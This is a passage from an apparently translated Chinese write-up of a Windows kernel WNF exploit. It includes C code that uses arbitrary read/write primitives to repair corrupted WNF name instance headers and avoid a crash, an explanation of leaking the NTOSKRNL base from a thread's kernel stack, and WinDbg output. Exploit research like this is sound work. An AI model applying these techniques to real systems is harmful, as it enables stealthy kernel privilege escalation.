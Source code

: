 如你所见，_WNF_NAME_INSTANCE  
 结构体中有一个成员 TemporaryNamesListHead，它是一个指向 _WNF_NAME_INSTANCE  
 内部 TemporaryNamesListHead 的链表。  
  
因此，我们可以通过使用任意读取原语（arbitrary read primitives）遍历这个链表，计算出每个 _WNF_NAME_INSTANCE  
 的地址。  
  
然后我们可以判断 Header 或 RunRef 是否已被破坏，并将其恢复为一个不会导致蓝屏（BSOD）的安全值（即 0）。  
  
示例如下：  
```
/*** This function starts from the EPROCESS WnfContext which points at a _WNF_PROCESS_CONTEXT* The _WNF_PROCESS_CONTEXT contains a TemporaryNamesListHead at 0x40 offset. * This linked list is then traversed to locate all _WNF_NAME_INSTANCES and the header and RunRef fixed up.**/void FindCorruptedRunRefs(LPVOID wnf_process_context_ptr){    // +0x040 TemporaryNamesListHead : _LIST_ENTRY    LPVOID first = read64((char*)wnf_process_context_ptr + 0x40);    LPVOID ptr;     for (ptr = read64(read64((char*)wnf_process_context_ptr + 0x40)); ; ptr = read64(ptr))    {        if (ptr == first) return;        // +0x088 TemporaryNameListEntry : _LIST_ENTRY        QWORD* nameinstance = (QWORD*)ptr - 17;        QWORD header = (QWORD)read64(nameinstance);                if (header != 0x0000000000A80903)        {            // Fix the header up.            write64(nameinstance, 0x0000000000A80903);            // Fix the RunRef up.            write64((char*)nameinstance + 0x8, 0);        }    }}
```  
### NTOSKRNL 基址  
  
虽然这个漏洞利用实际上并不需要获取 NTOSKRNL 的基址，但我需要获取它来加速对段堆（segment heap）的检查和调试。通过访问 EPROCESS/KPROCESS 或 ETHREAD/KTHREAD，我们可以从内核栈中获取 NTOSKRNL 的基址。通过将一个新创建的线程置于等待状态，我们可以遍历该线程的内核栈，并获取一个已知函数的返回地址。利用这个地址和一个固定的偏移量，我们就可以计算出 NTOSKRNL 的基址。在   
KernelForge[10]  
 中也使用了类似的技术。  
  
以下输出显示了处于等待状态的线程：  
```
0: kd> !thread ffffbc037834b080THREAD ffffbc037834b080  Cid 1ed8.1f54  Teb: 000000537ff92000 Win32Thread: 0000000000000000 WAIT: (UserRequest) UserMode Non-Alertable    ffffbc037d7f7a60  SynchronizationEventNot impersonatingDeviceMap                 ffff988cca61adf0Owning Process            ffffbc037d8a4340       Image:         amberzebra.exeAttached Process          N/A            Image:         N/AWait Start TickCount      3234           Ticks: 542 (0:00:00:08.468)Context Switch Count      4              IdealProcessor: 1             UserTime                  00:00:00.000KernelTime                00:00:00.000Win32 Start Address 0x00007ff6e77b1710Stack Init ffffd288fe699c90 Current ffffd288fe6996a0Base ffffd288fe69a000 Limit ffffd288fe694000 Call 0000000000000000Priority 8 BasePriority 8 PriorityDecrement 0 IoPriority 2 PagePriority 5Child-SP          RetAddr           : Args to Child                                                           : Call Siteffffd288`fe6996e0 fffff804`818e4540 : fffff804`7d17d180 00000000`ffffffff ffffd288`fe699860 ffffd288`fe699a20 : nt!KiSwapContext+0x76ffffd288`fe699820 fffff804`818e3a6f : 00000000`0000000000000000`00000001 ffffd288`fe6999e0 00000000`00000000 : nt!KiSwapThread+0x500ffffd288`fe6998d0 fffff804`818e3313 : 00000000`00000000 fffff804`00000000 ffffbc03`7c41d500 ffffbc03`7834b1c0 : nt!KiCommitThreadWait+0x14fffffd288`fe699970 fffff804`81cd6261 : ffffbc03`7d7f7a60 00000000`0000000600000000`0000000100000000`00000000 : nt!KeWaitForSingleObject+0x233ffffd288`fe699a60 fffff804`81cd630a : ffffbc03`7834b080 00000000`0000000000000000`0000000000000000`00000000 : nt!ObWaitForSingleObject+0x91ffffd288`fe699ac0 fffff804`81a058b5 : ffffbc03`7834b080 00000000`0000000000000000`0000000000000000`00000000 : nt!NtWaitForSingleObject+0x6affffd288`fe699b00 00007ffc`c0babe44 : 00000000`0000000000000000`0000000000000000`0000000000000000`00000000 : nt!KiSystemServiceCopyEnd+0x25 (TrapFrame @ ffffd288`fe699b00)00000053`003ffc68 00000000`00000000 : 00000000`0000000000000000`0000000000000000`0000000000000000`00000000 : ntdll!NtWaitForSingleObject+0x14
```  
## 漏洞利用测试与统计  
  